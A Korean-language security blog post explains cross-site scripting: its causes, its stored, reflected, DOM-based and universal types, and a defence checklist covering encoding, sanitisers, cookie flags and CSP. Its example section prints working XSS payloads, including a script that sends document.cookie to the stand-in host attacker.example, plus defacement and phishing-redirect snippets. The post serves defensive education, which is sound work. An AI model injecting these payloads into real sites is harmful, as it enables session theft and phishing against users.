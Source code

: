 ```yaml
---
title: "[Web] Cross-Site Scripting (XSS) 완전 정리"
date: 2025-09-10 20:10:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, XSS]          # 해시태그처럼 글 묶기
description: "인증정보 탈취 작전"
author: "송지민"
toc: true
---
```


# 가장 단순하지만 여전히 강력한 웹 공격 수단

---

> 이 글은 **보안 학습/방어 목적**입니다. 실습은 **본인 로컬/테스트 환경**에서만 하세요.

## XSS란?

**XSS(Cross-Site Scripting)** 는 웹 페이지에 악성 스크립트(보통 JavaScript)가 주입되어 **피해자의 브라우저에서 실행**되는 취약점이다.  
주로 “사용자가 입력한 값을 다시 출력”하는 기능에서 발생한다. (예: 로그인 후 “안녕하세요, 00님”)  

**SOP(Same-Origin Policy)** 때문에 임의의 출처의 민감한 데이터는 바로 읽기 어렵지만,  
스크립트가 **피해 사이트의 Origin 권한**으로 실행되기 때문에 **그 Origin의 권한 범위 안에서는 강력**하다.  
(예: 해당 사이트의 쿠키 접근, DOM 변조, 사용자의 클릭 유도 등)

---

## 언제 생기나? (간단 원리)

1. **입력(Input)**: 댓글/검색어/프로필 등 사용자가 넣는 값  
2. **처리(Process)**: 서버 또는 클라이언트(JS)에서 값 가공  
3. **출력(Output)**: HTML/속성/URL/스크립트 등 **맥락(Context)** 에 그대로 넣어 렌더링  
4. **실행(Execute)**: 브라우저가 그 값을 **코드로 해석**하면 XSS 발생

> 특히 **출력 맥락**(HTML 본문, 속성, JavaScript literal, URL, 스타일 등)에 맞는 **인코딩**이 안 되면 취약해진다.

---

## XSS 종류

| 종류 | 설명 |
|---|---|
| **Stored XSS** | 악성 스크립트가 **서버에 저장**되고, 다른 사용자가 페이지를 열 때 **응답에 포함**되어 실행됨. (예: 댓글/게시글에 삽입) |
| **Reflected XSS** | 악성 입력이 **요청 파라미터**에 들어오고, 서버가 그대로 **응답에 반사**해서 실행됨. (예: 검색 결과 페이지) |
| **DOM-based XSS** | 서버 응답이 아니라, **브라우저 내 JS가 DOM을 조작**하면서 발생. (예: `location.hash` 등을 `innerHTML`에 삽입) |
| **Universal XSS(UXSS)** | **브라우저/플러그인 자체**의 취약점으로 SOP를 우회해 스크립트가 실행되는 케이스. (앱·엔진 취약점 이슈) |

---

## 예제 코드 (학습용 / 안전 도메인 사용)

> 예제의 외부 주소는 **테스트 전용 도메인**으로 바꿨다: `https://attacker.example`  
> (※ `.example` TLD는 문서/예시에 쓰라고 예약된 도메인)

### 1) 쿠키/세션 탈취 시도 (학습용)
```html
<script>
// 데모: 현재 페이지의 쿠키 확인
alert(document.cookie);

// 단순 exfiltration 패턴 (이미지 요청으로 전송)
new Image().src = "https://attacker.example/collect?cookie=" + encodeURIComponent(document.cookie);
</script>
```
> 방어 팁: **HttpOnly 쿠키**면 `document.cookie`로 읽히지 않는다. `Secure`, `SameSite`도 함께 설정.

### 2) 페이지 변조
```html
<script>
// DOM 변조 (예: 내용 바꾸기)
document.write("Hacked by Demo!"); // 실제 서비스에선 미사용 권장
</script>
```
> 방어 팁: `document.write`, `innerHTML` 대신 **`textContent` / 안전한 템플릿** 사용.

### 3) 위치 이동(피싱 유도)
```html
<script>
// 피싱 페이지로 이동 (새 창 열기 포함)
location.href = "https://attacker.example/phishing";
window.open("https://attacker.example/");
</script>
```
> 방어 팁: 외부 링크는 **rel="noopener noreferrer"**, 사용자 확인(예: 중간 경고), URL 화이트리스트 등.

---

## SOP와 XSS의 관계, 그리고 왜 위험한가

- **SOP**는 “다른 출처의 응답 **읽기**”를 막는다.  
- 그러나 XSS는 **현재 페이지의 출처 권한**으로 실행되기 때문에, 그 **출처의 쿠키/DOM/요청**에는 접근 가능하다.  
- 그래서 공격자는 `https://attacker.example`로 **요청을 보내는 방식**(이미지/fetch 등)으로 데이터를 외부로 **유출**한다.

---

## 방어 전략 (현업 체크리스트)

### 1) 출력 인코딩(Output Encoding)
- 맥락별로 맞춤 인코딩:  
  - **HTML 본문** → HTML 엔코딩  
  - **HTML 속성** → 속성 엔코딩  
  - **URL/쿼리** → URL 엔코딩  
  - **JS literal** → JS 문자열 이스케이프  
- 프레임워크의 **기본 자동 이스케이프**를 끄지 말 것.

### 2) 입력 검증(Input Validation)
- 허용 목록(Whitelist) 기준으로 길이/문자/패턴 제한
- HTML을 허용해야 한다면 **DOMPurify** 같은 **화이트리스트 기반 Sanitizer** 사용

### 3) 안전한 DOM API 사용
- `innerHTML`, `document.write` 지양 → **`textContent`, `setAttribute`** 등 사용
- 사용자 입력을 **스크립트/이벤트 핸들러 속성**에 절대 직접 연결하지 말 것

### 4) 쿠키 보안
- **HttpOnly**: JS에서 쿠키 접근 차단  
- **Secure**: HTTPS에서만 전송  
- **SameSite**: 크로스 사이트 쿠키 전송 제한 (CSRF/XSS 조합 공격 완화)

### 5) **CSP(Content Security Policy)**
- 기본 정책: `script-src 'self'` + **nonce/sha256 기반** 인라인 허용  
- 단계적 도입: `Content-Security-Policy-Report-Only`로 **로그부터** 수집  
- **Trusted Types**(지원 브라우저): DOM XSS를 구조적으로 차단

### 6) 기타
- 템플릿 엔진의 **자동 escaping** 유지  
- 서드파티 스크립트 최소화/무결성(`integrity` 속성)  
- SRI, Subresource Integrity 적용  
- 린트/테스트(정적 분석, 동적 스캐너)로 **릴리즈 전 자동 점검**

---

## 요약

- XSS는 “**사용자 입력이 코드로 해석**되는 순간” 발생한다.  
- **Stored / Reflected / DOM-based / UXSS** 네 가지 관점으로 이해할 것.  
- 방어의 핵심은 **맥락별 인코딩**, **안전한 DOM 사용**, **CSP + HttpOnly/SameSite 쿠키**, **입력 검증/정화**다.

> 다음 글에서는 **실제 취약 코드 → 안전 코드**로 리팩터링하는 Before/After 예시를 다뤄보자.
